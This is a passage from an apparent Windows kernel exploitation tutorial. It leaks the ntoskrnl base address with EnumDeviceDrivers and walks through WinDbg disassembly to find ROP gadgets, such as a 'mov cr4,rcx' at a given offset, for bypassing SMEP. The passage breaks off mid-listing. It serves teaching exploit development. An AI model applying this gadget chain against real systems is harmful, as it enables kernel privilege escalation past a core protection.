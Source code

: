 ```cpp
    LPVOID addresses[1000];
    DWORD needed;

    EnumDeviceDrivers(addresses, 1000, &needed);

    printf("[+] Address of ntoskrnl.exe: 0x%p\n", addresses[0]);
```

Okay, now that we have `nt`'s base address, we can rely on finding relative offsets to it for calculating the ROP chain's gadgets. 

I referred to ptsecurity's [post](http://blog.ptsecurity.com/2012/09/bypassing-intel-smep-on-windows-8-x64.html) on finding the gadgets.

First gadget we need should allow us to pop a value into the `cr4` registe. Once we find one, we'll be able to figure out which register we need to control its content next.

```
kd> uf nt!KiConfigureDynamicProcessor

nt!KiConfigureDynamicProcessor:
fffff802`2cc36ba8 sub     rsp,28h
fffff802`2cc36bac call    nt!KiEnableXSave (fffff802`2cc2df48)
fffff802`2cc36bb1 add     rsp,28h
fffff802`2cc36bb5 ret

kd> uf fffff802`2cc2df48

nt!KiEnableXSave:
fffff802`2cc2df48 mov     rcx,cr4
fffff802`2cc2df4b test    qword ptr [nt!KeFeatureBits (fffff802`2cc0b118)],800000h

... snip ...

nt!KiEnableXSave+0x39b0:
fffff802`2cc318f8 btr     rcx,12h
fffff802`2cc318fd mov     cr4,rcx       // First gadget!
fffff802`2cc31900 ret

kd> ? fffff802`2cc318fd - nt

Evaluate expression: 4341861 = 00000000`00424065
```

**Gadget #1 is `mov cr4,rcx` at `nt + 0x424065`!**

Now we need a way to control `rcx`'s content, ptsecurity's post mentions `HvlEndSystemInterrupt` as a good target:

```
kd> uf HvlEndSystemInterrupt

nt!HvlEndSystemInterrupt:
fffff802`cdb76b60 push    rcx
fffff802`cdb76b62 push    rax
fffff802`cdb76b63 push    rdx
fffff802`cdb76b64 mov     rdx,qword ptr gs:[6208h]
fffff802`cdb76b6d mov     ecx,40000070h
fffff802`cdb76b72 btr     dword ptr [rdx],0
fffff802`cdb76b76 jb      nt!HvlEndSystemInterrupt+0x1e (fffff802`cdb76b7e)  Branch

nt!HvlEndSystemInterrupt+0x18:
fffff802`cdb76b78 xor     eax,eax
fffff802`cdb76b7a mov     edx,eax
fffff802`cdb76b7c wrmsr

nt!HvlEndSystemInterrupt+0x1e:
```